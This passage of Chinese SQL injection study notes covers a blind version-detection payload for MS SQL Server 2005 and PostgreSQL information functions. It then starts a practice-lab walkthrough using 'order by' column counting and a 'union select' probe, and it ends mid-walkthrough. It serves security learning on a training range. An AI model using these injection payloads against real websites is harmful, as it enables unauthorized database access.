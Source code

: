 ![image-20221112200300428](https://s2.loli.net/2022/11/25/wuzMGsHp3JNjBQI.png)

```
and substring((select @@version),22,4)='2005'--
```

适用于无回显模式，后面的2005就是数据库版本，返回正常就是2005的复制代码第一条语句执行

如果是2005版就有回显





# 4、postgreSQL

链接：

https://www.cnblogs.com/yilishazi/p/14710349.html



常见函数（整体）：

```
SELECT version() #查看版本信息
#查看用户
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;#这里是usename不是username
SELECT getpgusername();
#查看当前数据库
SELECT current_database()10 CURRENT_SCHEMA()  查看当前数据库    sqlmap跑注入使用此函数。
```



## 4.1 墨者postgresql

<img src="https://s2.loli.net/2022/11/25/k41DJPl2sHA5Qoe.png" alt="image-20221112210842964" style="zoom:33%;" />



**首先查询字段数：**

```
order by 4
```

猜出有四个四段



**看回显**

```
union select '1','2','3','4'
```

注意要打逗号，
